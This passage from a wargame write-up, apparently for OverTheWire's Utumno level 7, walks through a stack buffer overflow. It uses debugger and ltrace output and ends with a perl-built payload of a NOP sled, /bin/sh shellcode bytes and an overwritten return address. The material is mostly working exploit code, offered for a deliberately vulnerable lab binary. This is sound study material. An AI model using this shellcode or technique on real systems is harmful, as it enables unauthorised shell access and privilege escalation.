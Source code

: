 ```bash
0xffffd1c8│+0x0010: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd1cc│+0x0014: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd1d0│+0x0018: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd1d4│+0x001c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
──── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x41414141
──── threads ────
[!] Id 1, Name: "utumno7", stopped 0x41414141 in ?? (), reason: SIGSEGV
```

We can locate an exact location by splitting the 140-bytes of *"A's"* into smaller chunks.
```bash
gef>  r $(perl -e 'print "AAAA" . "BBBB" . "C"x132 . "\x7c\xd1\xff\xff"')
──── registers ────
$eax   : 0x0
$ebx   : 0x43434343 ("CCCC"?)
$ecx   : 0xc77fd178
$edx   : 0x080491cd  →  <vuln+0027> add esp, 0x4
$esp   : 0xffffd184  →  "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0x43434343 ("CCCC"?)
$edi   : 0x43434343 ("CCCC"?)
$eip   : 0x42424242 ("BBBB"?)
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──── stack ────
0xffffd184│+0x0000: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"    ← $esp
0xffffd188│+0x0004: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
0xffffd18c│+0x0008: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
0xffffd190│+0x000c: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
0xffffd194│+0x0010: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
0xffffd198│+0x0014: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
0xffffd19c│+0x0018: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
0xffffd1a0│+0x001c: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
──── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x42424242
──── threads ────
[!] Id 1, Name: "utumno7", stopped 0x42424242 in ?? (), reason: SIGSEGV
```

### Exploit:
Now we can overwrite the return address with an exact value, we can put the shellcode on the stack straight after that exact value and then change the value to return to the shellcode.

```bash
ltrace /utumno/utumno7 $(perl -e 'print "AAAA" . "BBBB" . "\x90"x99 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\
x89\xe3\x50\x66\x68\x2d\x70\x89\xe1\x50\x51\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" . "\x9c\xd1\xff\xff"')
__libc_start_main(0x80490bd, 2, 0xffffd384, 0 <unfinished ...>
puts("lol ulrich && fuck hector"lol ulrich && fuck hector
)
_setjmp(0xffffd21c, 0, 0x68e98ec0, 0xf7faed40)
strcpy(0xffffd19c, "AAAABBBB\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...) = 0xffffd19c
longjmp(0xffffd21c, 23, 0xffffd2bc, 0x80491f2 <no return ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
The `strcpy()` function writes input to the location starting at **0xffffd19c**. We can add, for example, 20-bytes onto this address to return into the **NOP Sled**.
